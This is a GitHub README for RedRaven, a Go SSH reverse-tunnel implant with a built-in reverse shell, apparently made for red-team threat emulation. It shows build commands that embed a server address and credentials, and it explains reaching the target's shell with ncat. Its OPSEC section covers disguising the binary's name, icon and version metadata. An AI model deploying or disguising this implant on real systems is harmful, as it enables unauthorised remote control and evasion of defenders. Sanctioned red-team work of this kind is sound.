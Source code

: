 ## RedRaven
[![License](https://img.shields.io/badge/license-MIT-_red.svg)](https://opensource.org/licenses/MIT)
[![Go Report Card](https://goreportcard.com/badge/github.com/schwartz1375/redraven)](https://goreportcard.com/report/github.com/schwartz1375/redraven)


RedRaven is a golang (recommend v1.15, v1.13 min) cross platform implementation of an ssh reverse tunnel (with a built in reverse shell) similar to:  

    ssh -R 8080:localhost:8080 -i ./privkey.pem user@serverAddr

This opens a tunnel between the two endpoints and allows data to be exchanged this direction:
   
    server:8080 ---> client:8080

Once authenticated a process on the SSH server can interact with the service answering to port 8080 of the client. In this case a built in reverse shell that you can interact with via ncat on the ssh server.  As this is a outbound model vs a bind you don't need to deal with any NAT/firewall rules assuming outbound ssh is allowed.

## Dependices
* [Go](https://golang.org/) 1.13+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource infromation to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment these lines out in the Makefile.

## How to build
The only thing you should need to modify is the Makefile for the variable "PATH_TO_PEM."  Note the variables are injected at build time via the Makefile.  Second, one may need to uncomment the log.Fatal lines in the main.go for troubleshooting, these statements are commented out for threat emulation purpose to excerise the blue IR and RE teams.  Note you may also need to run "make depends" first to generate the generate self signed certificate.

### Example 1 
You plan to use public Key auth, to do this you first need to set the PATH_TO_PEM variable in the Makefile and 
compile the binary with the nessecary paramaters for example:

    make linux64 PEM=true USER=ubuntu SERVER=<FQDN or IPaddr>:<PORT>

### Example 2 
You plan to use password auth, compile the binary with the nessecary paramaters for example:

    make linux64 PEM=false USER=ubuntu SERVER=acme.com:22 PASSWD=123pass

Note that it is possible to have both a PEM and PASSWD set, the PEM=BOOL controls what is used.

## On the SSH Server (gray space)
SSH to the server to interact with the target and type: 

    ncat localhost 8080

note control-c will kill ncat but it will not terminate the process on the client.  Another words the ssh session is still active. On a windows systems you would need to do something like the following:

    tasklist | findstr putty
    taskkill /F /PID <PID #>

## OPSEC
Things to consider for windows:
* ```You are embedding credentials in the binary being deployed, take precautions!```
* The name of the binary
* The icon
* The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile
* The fact this uses a self signed Certificate 
